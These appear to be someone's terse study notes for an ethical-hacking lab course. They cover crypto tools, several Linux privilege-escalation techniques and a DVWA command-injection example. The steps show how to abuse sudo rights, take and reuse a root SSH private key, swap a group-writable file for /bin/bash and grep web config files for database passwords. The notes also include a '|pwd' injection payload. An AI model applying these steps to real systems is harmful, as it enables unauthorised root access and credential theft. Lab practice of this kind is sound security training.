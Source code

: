 - exploit open s3 bucket using aws cli

- escalate privilege on misconfigured policys

* Cryptography 

- calculate one way hash using hashcalc.exe of any file

- Perform file and text encyrption using cryptoforge.exe

- create and use seld sign certificate on server

- disk encyrption using veracrypt
1. open encytped file -> click mount -> enter passphtase -> and check inside the files



-----------------------------------------
 

* Privilige EScalation 

1. connect target via ssh or ftp
2. whoami -> user1 -> 
3. sudo  -l -> list user withs privilige info all =all
4. since user2 does not require pwd for root -> /home/user2/ -> ls -> cat flag.txt
5. but cat wont work so -> cd to user1
6. sudo -u user2 /bin/bash
7. now go to fiag.txt and cat it 
8. same 4 to 7 for root user 
9. cd .ssh -> ls -> pri and pub key -> utilize priv key to get root access
10. copy that key to host machine and chmod 600 id_rsa 
11. now try to ssh on root user -> ssh root@ip -i id_rsa  | -p if required 
12. same can also be achived with public key 

* Privilige escalation - part 2

1. ls -l | check the group permission
2. stat -c "%a %A %U %G %F" filename
3. groups hostname | to chcek the hostname asccoiate d group | strings filename
4. cp /bin/bash filename | if didnt work then 
5. rm filename 
6. cp /bin/bash delted filename
7. now run ./filename 
8. check whoami | cd /root/ -> ls

* privilige escalation - part 3 

1. cd /var/www/html | check for some executable files 
2. grep -inr "db_user" | check for cat  local/config/database.inc.php | db_user and passwords
 

* privilige escaltion - part 4  linenum and linpeas

1. linenum.sh from git -> chmod +x file.sh
2. ./lineenum.sh | parallel ./linpeas


* command injection - dvwa

1. free ping page -> 8.8.8.8
2. 8.8.8.8|pwd
